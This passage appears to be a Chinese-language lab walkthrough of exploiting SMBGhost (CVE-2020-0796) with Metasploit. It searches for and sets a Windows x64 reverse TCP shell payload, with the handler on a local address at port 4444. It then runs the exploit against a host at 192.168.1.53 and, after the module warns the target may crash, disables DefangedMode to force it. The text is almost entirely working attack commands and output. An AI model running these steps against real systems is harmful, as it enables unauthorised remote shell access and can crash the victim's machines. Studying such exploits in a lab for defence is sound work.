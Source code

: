 查找 payload

```
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > search windows/x64/shell/reverse type:payload
```

```
Matching Modules
================

   #  Name                                        Disclosure Date  Rank    Check  Description
   -  ----                                        ---------------  ----    -----  -----------
   0  payload/windows/x64/shell/reverse_tcp_rc4                    normal  No     Windows x64 Command Shell, Reverse TCP Stager (RC4 Stage Encryption, Metasm)
   1  payload/windows/x64/shell/reverse_tcp_uuid                   normal  No     Windows x64 Command Shell, Reverse TCP Stager with UUID Support (Windows x64)
   2  payload/windows/x64/shell/reverse_tcp                        normal  No     Windows x64 Command Shell, Windows x64 Reverse TCP Stager


Interact with a module by name or index. For example info 2, use 2 or use payload/windows/x64/shell/reverse_tcp
```

设置 payload

```
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > set payload windows/x64/shell/reverse_tcp
```

运行

```
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > run
```

```
[*] Started reverse TCP handler on 192.168.1.30:4444 
[*] 192.168.1.53:445 - Running automatic check ("set AutoCheck false" to disable)
[!] 192.168.1.53:445 - The service is running, but could not be validated.
[-] 192.168.1.53:445 - Exploit aborted due to failure: bad-config: 

Are you SURE you want to execute this module? There is a high probability that even when the exploit is
successful the remote target will crash within about 90 minutes.

Disable the DefangedMode option to proceed.

[*] Exploit completed, but no session was created.
```

> 报错信息中提示需要禁用 DefangedMode

禁用 DefangedMode

```
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > set DefangedMode false
```
